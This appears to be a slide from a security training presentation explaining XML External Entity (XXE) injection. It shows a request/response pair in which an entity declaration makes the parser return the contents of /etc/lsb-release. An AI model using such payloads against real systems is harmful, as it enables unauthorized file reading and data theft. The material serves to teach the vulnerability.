

# Example 4
An attacker can make the following request, and if the XML parser is configured to process external entities (by default, many popular XML parsers are configured to do so), it will return the contents of a file on the system.
| Request | Response |
| --- | --- |
| POST http://example.com/xml HTTP/1.1 <!DOCTYPE foo [ <!ELEMENT foo ANY> <!ENTITY bar SYSTEM "file:///etc/lsb-release"> ]> <foo> &bar; </foo> | HTTP/1.0 200 OK DISTRIB\_ID=Ubuntu DISTRIB\_RELEASE=16.04 DISTRIB\_CODENAME=xenial DISTRIB\_DESCRIPTION="Ubuntu 16.04 LTS" |